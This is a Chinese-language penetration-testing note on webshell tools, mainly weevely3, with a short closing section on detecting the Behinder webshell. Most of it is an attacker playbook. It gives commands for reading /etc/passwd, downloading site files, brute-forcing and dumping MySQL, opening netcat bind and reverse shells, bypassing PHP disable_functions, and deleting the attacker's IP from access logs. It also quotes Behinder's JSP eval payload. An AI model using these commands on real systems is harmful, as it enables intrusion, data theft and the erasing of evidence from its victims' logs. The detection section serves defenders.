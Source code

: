 ### Webshell管理工具


|webshell名称|主控端语言|针对目标环境|描述|
|:-------------:|--|--|-----|
|[epinna/weevely3](https://github.com/epinna/weevely3)|python2|php | 更适合linux环境下的后渗透 |
|[rebeyond/Behinder](https://github.com/rebeyond/Behinder)|Java|php/Java/.NET|“冰蝎” 动态二进制加密 webshell管理端|
|[ABPTTS](https://github.com/nccgroup/ABPTTS)|python|.jsp .war .aspx|TCP tunneling over HTTP/HTTPS for web application servers. 参考[Black Hat USA 2016](https://www.blackhat.com/us-16/arsenal.html#a-black-path-toward-the-sun) |



#### weevely3的后渗透功能总结

* 主机信息搜集(详细内容参考其他笔记)
  * 工具命令`system_info` 查看当前webshell文件位置 操作系统类型 根目录 php版本 当前用户名 外网IP 等
  * 工具命令`system_procs` 列出进程
  * 工具命令`:system_extensions` 查看php和web中间件信息 能看到apache_modules等信息
  * 工具命令`:audit_phpconf`
  * 工具命令`:audit_filesystem`  查看linux下关键目录 寻找 可写/可读/可执行 文件
* 文件操作
  * 读取文件命令`:audit_etcpasswd` 读取passwd文件(需要足够的权限)
  * 创建文件命令`touch -human-ts '2019-05-29 16:21:42' test.php` 创建文件 可设置创建时间
  * 下载文件命令`:file_download result.zip /Users/xxx/Downloads/result.zip` 把目标站的`result.zip` 下载到本地`Downloads/result.zip`
  * 上传文件命令`:file_upload /Users/xxx/Downloads/1.png file.png -force -vector fwrite`把本地文件/数据 上传到 远程目标站`file.png` 参数`-force`表示如果文件存在则强制覆盖
  * 上传文件命令`:file_upload -content "testdata" data.php` 把本地文件/数据 上传到 远程目标站`data.php`
  * 压缩文件命令`:file_zip site.zip ./` 把当前目录下所有文件压缩成site.zip 注意压缩过程可能被中断(判断方法是临时压缩文件大小不变) 建议重新执行压缩文件命令(实测某次压缩过程被中断6次才压缩成功 最终压缩包大小为2G)
  * 压缩文件命令`:file_gzip site.gz ./` 只支持linux
  * 搜索内容命令`:file_grep ./ "pass"` 不建议搜索大目录
* net网络请求
  * 端口扫描 - 使用PHP函数[fsockopen](https://www.php.net/manual/en/function.fsockopen.php)实现
    * 工具命令`:net_scan 127.0.0.1 21,22,80,443,1433,3306,3389,7001`
  * proxy
    * 工具命令`:net_proxy` 使用目标主机发起http(s)请求
    * 工具命令`:net_curl http://ipconfig.io/json`  模拟curl 使用目标主机发起http(s)请求
* DB数据库操作
  * SQL交互
    * 工具命令`sql_console -user USER -passwd PASS123 -host 10.2.3.4` 连接MySQL成功则能交互式执行SQL语句
      * 对MySQL进行信息搜集 `SELECT version();` `show databases;`
  * 暴力枚举数据库用户名和口令 只支持mysql和pgsql
    * 工具命令`:bruteforce_sql mysql -hostname localhost -users root -pwds db123456 admin123` 简单枚举 成功会出现`root:pass`
    * 工具命令`:bruteforce_sql mysql -hostname localhost -users USERNAME1 USERNAME2 USERNAME3ROOT -fpwds wordlists/dic.txt`字典枚举
  * dump数据库到本地（前提是MySQL需要权限 可导出文件到某目录）
    * 查看MySQL权限 `show global variables like '%secure_file_priv%';` 如果查询结果为NULL 则没有权限直接使用SQL语句导入导出文件 需要变通:
      * 把查询结果保存 ```SELECT * FROM `table1`;```  如果查询的数据量过大导致查询超时?
        * 先确定数据条数 ```SELECT COUNT(*) FROM `table1`;``` 再分多次查询 ```SELECT * FROM `table1` ORDER BY `id` ASC LIMIT 0,20;``` 从第1条数据开始(起点) 查询得到20条数据(数据量) 下次`LIMIT 20,20`再得到20条数据 以此类推 最后拼接查询结果 得到整个表的数据
    * 实现dump方式1 使用php实现(默认) 支持mysql,pgsql,sqlite,dblib  php代码见[weevely3/mysqldump.tpl](https://github.com/epinna/weevely3/blob/master/modules/sql/_dump/mysqldump.tpl) 原项目为[mysqldump-php](https://github.com/ifsnop/mysqldump-php)
    * 工具命令 `:sql_dump DBname DBuser DBpass -dbms mysql -host localhost:3306` 把数据库dump 下载保存到本地目录`/var`下. 可指定保存为本地文件`-lpath /Users/xxx/Downloads/db1.sqldump`
    * 实现dump方式2 执行系统命令(只支持MySQL) 使用weevely中定义的php类`ShellCmd`执行系统命令启动`mysqldump`程序实现
    * 工具命令 `:sql_dump DBname DBuser DBpass -dbms mysql -host localhost:3306 -vector mysqldump_sh`
* 派生shell
  * 正向shell`:backdoor_tcp`
    * 工具命令`:backdoor_tcp 8811 -vector netcat` 在目标主机(被控端)公网IP上开启端口监听 1.1.1.1:8811   主控端执行`nc 1.1.1.1 8811`
    * 工具命令`:backdoor_tcp 8811 -vector netcat_bsd`
    * 工具命令`:backdoor_tcp 8811 -vector python_pty`
    * 工具命令`:backdoor_tcp 8811 -vector socat`
  * 反向shell`:backdoor_reversetcp`
* 命令交互
  * 执行PHP代码 - `:shell_php "phpinfo();"`
  * 执行系统命令 - `:shell_sh pwd -vector proc_open`
  * bypass disable_functions 方法1 - 使用Apache的mod_cgi模块和`.htaccess`文件
    * 工具命令`:audit_disablefunctionbypass` 如果失败会提示
    * 利用前提:Apache使用了mod_cgi模块
    * 问题:php的配置文件`php.ini`中`disable_functions=`说明了禁止执行的php函数，如`exec()`等
    * 启动模块`:audit_disablefunctionbypass` 注意：会上传2个文件 `.htaccess` 和 CGI脚本 `acubu.ved`
    * 通过CGI脚本启动的独立进程`acubu.ved` 即可实现伪终端 进行命令交互 如`ps -aux` `whoami` 等
    * 不需要执行命令则可删除之前上传的2个文件 `:file_rm .htaccess` `:file_rm acubu.ved`
    * 如果不删除之前上传的2个文件 则下次可以直接启动CGI脚本 实现伪终端命令交互 `:audit_disablefunctionbypass -just-run http://localhost/acubu.ved`
  * bypass disable_functions 方法2 - json serializer的UAF漏洞
      * PHP 7.1-7.3 [PHP :: Bug #77843 :: Use after free with json serializer](https://bugs.php.net/bug.php?id=77843) [exploits](https://github.com/mm0r1/exploits/tree/master/php-json-bypass)
* 攻击痕迹清理(详细内容参考其他笔记)
  * 删除某文件(access.log)中 有1.1.1.1的那些行(实测不一定成功 看权限)  自带[3种实现方式](https://github.com/epinna/weevely3/blob/caf8978a50754892f7282d451ad18ab417600636/modules/file/clearlog.py)
    * 使用php代码实现`:file_clearlog -vector php_clear 1.1.1.1 access.log`
    * 使用sed命令实现`:file_clearlog -vector clearlog 1.1.1.1 access.log`
    * 使用sed命令实现`:file_clearlog -vector old_school 1.1.1.1 access.log`

### 检测案例1 - 通过堆栈检测未知webshell(可发现冰蝎webshell)

冰蝎webshell的JSP版本通过自定义ClassLoader + defineClass方法来实现eval特性。
```
new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);
```

因为冰蝎webshell使用了加密通信流量(AES双向加密)，可绕过WAF/IDS等系统

检测方法:部署在web应用内部的OpenRASP能够看到后门操作日志（需安装 999-event-logger 插件）:
```
[event-logger] Listing directory content: /
[event-logger] Execute command: whoami
```

同样，可通过"命令执行"的堆栈进行检测:
```
java.lang.ProcessBuilder.start
...
net.rebeyond.behinder.payload.java.Cmd.RunCMD
net.rebeyond.behinder.payload.java.Cmd.equals
```

检测方法参考自[百度安全实验室](https://mp.weixin.qq.com/s?src=11&timestamp=1562667020&ver=1718&signature=d-uJaXrL7n3rxgaAIbCwhNwsmR30j*WEc-6KntSfDK53VoJSUODDlwvvxEiF3Y5oN*8PnkZChi5DtxhyhtULFDryXwj927jCv1H2KWYADcTU-VHxlZas6QlTRVxkSkoP&new=1)
